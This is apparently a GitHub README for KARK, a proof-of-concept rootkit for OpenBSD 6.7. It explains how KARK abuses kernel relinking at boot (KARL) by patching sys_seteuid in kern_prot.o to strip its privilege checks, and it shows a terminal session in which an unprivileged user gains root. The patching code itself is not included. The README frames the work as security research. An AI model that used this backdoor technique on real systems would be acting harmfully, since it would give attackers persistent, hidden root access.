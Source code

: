 # K.A.R.K

The __"..KARL Aware Rootkit.."__ for OpenBSD 6.7    

![](kark-logo.png)    

An experimental **proof of concept** rootkit for OpenBSD 6.7.    

## What is KARL?    

KARL (https://marc.info/?l=openbsd-tech&m=149732026405941) is a feature that relinks the OpenBSD Kernel each time the system is restarted with the aim of giving a different layout each time which complicates some forms of exploitation.          

## How does it work? Really..      

You can think of KARL as simply a load of .o files in a directory somewhere on disk that are relinked by a script calling a makefile each time.    

## What is KARK?    

KARK is a tool that attempts to patch sys_seteuid code in the kern_prot.o file to remove safety checks and relinks the kernel so that when the system is restarted any call like seteuid(0) from an unprivileged user will succeed. KARK is a minimal example of an **experimental** rootkit-like program provided as a **proof of concept** for security research and demonstration.     

```    
$ ssh james@192.168.0.90
james@192.168.0.90's password: 
Last login: Mon Sep 28 22:29:53 2020 from 192.168.0.57
OpenBSD 6.7 (GENERIC) #6: Thu Sep  3 13:42:48 MDT 2020

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

obsdtst$ cd /tmp/
obsdtst$ gcc -Wall -o test test.c                                                                                                                                 
obsdtst$ ./test                                                                                                                                                    --> 0
obsdtst# id
uid=1000(james) euid=0(root) gid=1000(james) groups=1000(james), 0(wheel)
obsdtst# whoami
root
```
